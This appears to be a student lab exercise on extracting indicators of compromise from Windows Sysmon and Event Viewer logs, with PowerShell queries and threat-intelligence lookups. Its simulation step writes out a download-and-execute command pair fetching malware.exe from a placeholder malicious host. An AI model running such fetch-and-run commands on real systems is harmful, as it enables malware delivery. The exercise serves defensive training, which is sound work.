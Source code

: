 # **Task #5: Extract IOCs (Indicators of Compromise) from a Security Incident**

## **Objective**  
The objective of this task is to help students extract **Indicators of Compromise (IOCs)** from a **Windows security incident** by analyzing system logs. By completing this task, students will learn how to identify **malicious IPs, file hashes, registry changes, and process executions** associated with an attack.

---

## **Lab Setup**  
### **Requirements**  
- **System:** Windows 10/11 or Windows Server 2019/2022  
- **Tools Required:**  
  - **Windows Event Viewer**  
  - **Sysmon (System Monitor) from Sysinternals**  
  - **PowerShell**  
  - **VirusTotal / AbuseIPDB (For IOC investigation)**  

---

## **Preparation**  
### **Step 1: Install and Configure Sysmon (If Not Installed)**  
1. Download **Sysmon** from Microsoft Sysinternals:  
   [https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)  
2. Extract the Sysmon ZIP file.  
3. Open **Command Prompt (Run as Administrator)** and install Sysmon with logging enabled:  
   ```powershell
   sysmon -accepteula -i
    ```
4. Verify installation by checking for Sysmon logs in Event Viewer:
```
Applications and Services Logs → Microsoft → Windows → Sysmon → Operational
```

## Attack Simulation & Detection
We will now simulate a security incident, extract IOCs, and analyze logs.

### Step 1: Simulate Malicious Activity
1. Open PowerShell (Run as Administrator).

2. Execute the following command to simulate a malicious script execution:

```
Invoke-WebRequest -Uri "http://malicious-site.com/malware.exe" -OutFile "C:\Users\Public\malware.exe"
```
- This command downloads a file from a remote source, a common malware delivery technique.

3. Execute the downloaded file to simulate an infection:

```
Start-Process "C:\Users\Public\malware.exe"
```
- This mimics an attacker executing malware on a compromised system.

### Step 2: Extract IOCs Using Windows Event Viewer
1. Open Event Viewer (Win + R, type eventvwr.msc, press Enter).

2. Navigate to:
```
Applications and Services Logs → Microsoft → Windows → Sysmon → Operational
```
3. Click Filter Current Log and enter:
- Event ID 1 (Process Creation) → Identifies malware.exe execution.
- Event ID 3 (Network Connection) → Shows outbound connections to malicious IPs.
- Event ID 11 (File Creation) → Captures the dropped malware file.
- Event ID 13 (Registry Modification) → Detects persistence mechanisms.

4. Extract the following IOCs:
- File Path: Where malware.exe was stored (C:\Users\Public\malware.exe).
- Process Name: malware.exe.
- Remote IP Address: The attacker’s C2 (Command & Control) server.
- Registry Key Modifications: Any changes related to persistence.

### Step 3: Extract IOCs Using PowerShell
Instead of using Event Viewer, use PowerShell to extract IOCs:

**Check for Malicious Process Execution (Event ID 1)**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object {$_.Id -eq 1 -and $_.Message -like "*malware.exe*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This retrieves all instances where malware.exe was executed.

**Check for Network Connections (Event ID 3)**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object {$_.Id -eq 3} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This extracts all network connections, revealing the remote attacker's IP.

**Check for File Creation Events (Event ID 11)**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object {$_.Id -eq 11} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This identifies suspicious files created on disk.

### Step 4: Investigate Extracted IOCs
1. Copy any malicious IPs, file hashes, or domains identified.
2. Check them on Threat Intelligence Platforms:
- VirusTotal → Check if the file or domain is flagged as malicious.
- AbuseIPDB → Verify if the remote IP is blacklisted.
- Hybrid Analysis → Look for behavior analysis of malware.exe.
3. If confirmed malicious, recommend blocking the IPs/domains and quarantining the infected file.

## Conclusion
✅ Successfully simulated a malicious file execution and network communication.   
✅ Extracted Indicators of Compromise (IOCs) from Sysmon and Windows Event Logs.   
✅ Investigated malicious domains, IPs, and file hashes using threat intelligence.   
✅ Learned how SOC analysts collect IOCs and use them for threat hunting.   

## Submission
- Share a screenshot of Sysmon logs showing the identified IOCs (Event ID 1, 3, or 11).
- Write a short observation on how IOC extraction helps in identifying and mitigating security threats.

